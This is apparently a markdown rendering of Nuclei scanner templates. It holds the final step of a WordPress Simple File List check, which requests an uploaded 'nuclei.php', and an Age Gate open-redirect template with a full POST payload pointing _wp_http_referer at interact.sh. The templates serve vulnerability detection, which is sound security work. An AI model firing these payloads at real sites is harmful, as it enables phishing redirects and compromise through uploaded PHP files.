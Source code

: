 ### Step - 3
```
GET /wp-content/uploads/simple-file-list/nuclei.php HTTP/1.1
Host: {{Hostname}}
Accept: */*

```
### Matchers

**Type - word**
- words
    1. Nuclei - Open source project (github.com/projectdiscovery/nuclei)
    2. PHP Version
    3. Configuration Command
- part - body
- condition - and

**Type - word**
- words
    1. text/html
- part - header

**Type - status**
- status
    1. 200

---
# WordPress Age Gate \<2.13.5 - Open Redirect
## Description
- WordPress Age Gate plugin before 2.13.5 contains an open redirect vulnerability via the  _wp_http_referer parameter after certain actions and after invalid or missing nonces. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - low
- tags - agegate,unauth,wpscan,packetstorm,wp-plugin,redirect,wordpress,wp
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/wp-admin/admin-post.php
  - age_gate%5Bd%5D=10&age_gate%5Bm%5D=10&age_gate%5By%5D=1990&age_gate%5Bremember%5D=1&age_gate%5Bage%5D=TVRnPQ%3D%3D&action=age_gate_submit&age_gate%5Bnonce%5D=48f2b89fed&_wp_http_referer=https://interact.sh
### Matchers

**Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh\/?(\/|[^.].*)?$

---